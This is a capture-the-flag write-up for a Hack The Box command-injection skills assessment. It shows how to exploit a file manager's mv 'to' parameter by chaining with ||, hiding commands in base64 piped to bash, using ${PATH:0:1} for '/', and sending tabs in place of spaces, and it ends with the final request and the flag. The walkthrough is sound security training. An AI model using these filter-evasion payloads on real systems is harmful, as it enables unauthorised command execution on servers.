 # Skills Assessment

You are contracted to perform a penetration test for a company, and through your pentest, you stumble upon an interesting file manager web application. As file managers tend to execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques presented in this module to detect a command injection vulnerability and then exploit it, evading any filters in place.

**Questions**

What is the content of '/flag.txt'?

### &#x20;**Interface**

<figure><img src="../.gitbook/assets/Untitled.png" alt=""><figcaption></figcaption></figure>

When you log in as guest/guest, the file manager appears like this. Checking file contents, downloading files, and moving files all worked by default.

### Finding Attack Vector

<figure><img src="../.gitbook/assets/Untitled (1).png" alt=""><figcaption></figcaption></figure>

While pressing various buttons, I found a page that had the function of moving files. Here, if you select the tmp directory, tmp is reflected in the 'to' variable of the url, that is, as follows.

http://188.166.173.208:30913/index.php?to= tmp \&from=877915113.txt

&#x20;'Couldn't the mv command have been used here?' An analogy was made. So, I thought it might spit out an error, so I tried pressing the Move button without putting any value into the 'to' variable.

<figure><img src="../.gitbook/assets/Untitled (2).png" alt=""><figcaption></figcaption></figure>

Through this error, we could see that the mv command had been used.

### Exploit

Now that we know that we are using the mv command, we need to properly inject the GET parameters. There is something to be careful about here. When moving a file using the existing mv command mv \<file name> \<directory to move to> Because you enter the command like this:

**We need to inject the command we want into 'to', not 'from'.**

Now that we know the exact attack vector, let’s inject the payload one by one.

In my case, I used ||(%7c%7c). To use &&, the previous command is normally

This is because the file had to be moved continuously during testing because it had to operate.

<figure><img src="../.gitbook/assets/Untitled (3).png" alt=""><figcaption></figcaption></figure>

When only the operator was entered like this, an error that I had not seen before occurred. On the other hand

<figure><img src="../.gitbook/assets/Untitled (4).png" alt=""><figcaption></figcaption></figure>

When I entered the command like this, I confirmed that basic commands such as cat, mv, ls, etc. were filtered out. On the one hand, it also tells us that the operator is not filtering. On the other hand, the bash command was confirmed to work.

First of all, since the basic commands are filtered, I chose to encode them in base64. The encoded command will be given again as input to the base64 command, and this will then be given as input to the bash command. So at first, I thought I could just move the /flag.txt file to the tmp directory and check the contents.

First, encode the command as follows.

<figure><img src="../.gitbook/assets/Untitled (5).png" alt=""><figcaption></figcaption></figure>

If you set the payload as described above, it is as follows.

```bash
%7c%7cbash<<<$(base64 -d<<<bXYgL2ZsYWcudHh0IC92YXIvd3d3L2h0bWwvZmlsZXMvdG1w)
```

But the above method didn't work.

Thinking about what I learned, basically, cases like '/' or '\\' that are needed to indicate the location of a directory are

Basically, it was said that there was a high possibility that it would be filtered.

<figure><img src="../.gitbook/assets/Untitled (6).png" alt=""><figcaption></figcaption></figure>

As above, '/' was bypassed and re-encoded.

(To briefly explain, the PATH environment variable is used and sliced ​​to load the first letter, '/'.)

```bash
%7c%7cbash<<<$(base64 -d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRI
OjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)
```

This also didn't work...

Then, I wondered if it was because of space filtering, so I added a tab (%09) between the base64 and -d options.

<figure><img src="../.gitbook/assets/Untitled (7).png" alt=""><figcaption></figcaption></figure>

Wow, it finally ran, but Permission denied... A moment of frustration

It took me about a second to realize that I was stupid.

I was showing an error on the screen, but I was making it difficult for no reason lol.

Let's encode the cat /flag.txt command and send it back.

I was able to get the flag.

```bash
echo -n 'cat ${PATH:0:1}flag.txt' | base64
Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=
GET /index.php?to=%7c%7cbash<<<$(base64%09-d<<<Y2F0ICR7UEFUSDowOjF9ZmxhZy50eHQ=)&from=605311066.txt&finish=1&move=1
HTB{c0mm4nd3r_1nj3c70r}
```

### Reference

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)
